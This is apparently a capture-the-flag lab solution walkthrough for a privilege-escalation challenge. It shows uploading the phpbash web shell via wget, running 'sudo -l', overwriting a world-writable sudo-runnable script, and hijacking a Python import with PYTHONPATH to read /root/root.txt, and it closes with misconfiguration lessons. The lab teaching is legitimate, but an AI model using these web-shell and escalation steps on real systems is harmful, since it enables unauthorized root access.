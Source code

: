 ## Hints
Because our challenges do not all have the same amount of hints, our deduction system is based on the % of hints used. If a challenge has 4 hints, each hint is worth 25%. If you use the complete solution, you get 0 points.

1. Where to start (-20%)

Collapse
Prerequisite - Part 1. and Part 2. of the challenge should be solved first.
We need to get some kind of shell access to server, execute command.

2. First idea (-20%)

Collapse
Whenever we have access to the server as some restricted user, usually it is www-data or whatever user running the webserver process, we can try to do privilege escalation.
There are lots of scripts for finding vulnerabilities that can allow us to do privilege escalation like 'linpeas', but the first thing we should try is to check if our user have any `sudo` rights. If there is we could try exploiting that.
The goal of this challenge is to use server misconfiguration to gain access as root user (privilege escalation).

3. Complete solution (-20%)

Collapse
Since we can upload php files it is good idea to upload php file where we can type commands and see output directly.
Some kind of web shell access.
We can use (script)[https://github.com/Arrexel/phpbash] for this purpose.

Note, when it can be done we could also upload php reverse shell script that way using netcat we can get reverse shell access.
For this challange we will use php web shell.
Download PHP web shell script:

```wget https://raw.githubusercontent.com/Arrexel/phpbash/master/phpbash.php```
And upload to the server and access our php shell by clicking on picture icon or directly:

```http://SERVENAME:8888/img/phpbash.php```
Then we can try reading root.txt file by typing:

```cat /root/root.txt```
We will get access error:
```sh
www-data@avatao
:/var/www/html/img# cat /root/root.txt

cat: /root/root.txt: Permission denied
```
The first that is check for misconfiguration is sudo with `sudo -l` command.
```sh
www-data@avatao
:/var/www/html/img# sudo -l

Matching Defaults entries for www-data on avatao:
 env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on avatao:
 (ALL : ALL) SETENV: NOPASSWD: /opt/scripts/mycleaner
```
We can see that `www-data` user can access and run as root `/opt/scripts/mycleaner`.
We can now read file:
```py
#!/usr/bin/env python3

import os
try:
 os.remove("/tmp/dziapp-cache/*") 
except:
 pass

print ("cache cleaned ...")
```
and if we do `ls -la` on thath script we get:
```sh
www-data@avatao
:/var/www/html/img# ls -la /opt/scripts/mycleaner
-rwxrwxrwx 1 www-data www-data 127 Mar 9 07:38 /opt/scripts/mycleaner
```
Based on this we can see two ways of exploiting. First we see tath sys admin was lazy and set `chmod 777` on that script that means we can change it and put what ever we wont to run as sudo.

4. First approach (-20%)

```sh
www-data@avatao
:/var/www/html/img# echo "#!/bin/bash\ncat /root/root.txt" > /opt/scripts/mycleaner


www-data@avatao
:/var/www/html/img# sudo /opt/scripts/mycleaner

#Flag will be displayed here
```
5. Second approach (-100%)

The other way in case that sys admin wasn't lazy and put chmod 777, and we can not change that file we can use PYTHONPATH environment variable to read flag file.

First we create `os.py` file:

```echo "#!/usr/bib/env python3\nfileObject = open('/root/root.txt', 'r')\ndata = fileObject.read()\nprint(data)" > os.py```
Run the following command:

```sudo PYTHONPATH=/var/www/html/img /opt/scripts/mycleaner```
At the end flag will be displayed. This can be done only before changing mycleaner script to bash type script that we done in the first attempt.

# Lessons learned:

    -   System administrators should be careful when adding www-data user to sudoers.
    -   Never ever use 777 file access permission (world writable).
    -   This kind of vulnerability is not software related, it is in the category of 'Security Misconfiguration' which on the OWASP Top 10 risks.
    -   Read more on [OWASP's related site](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)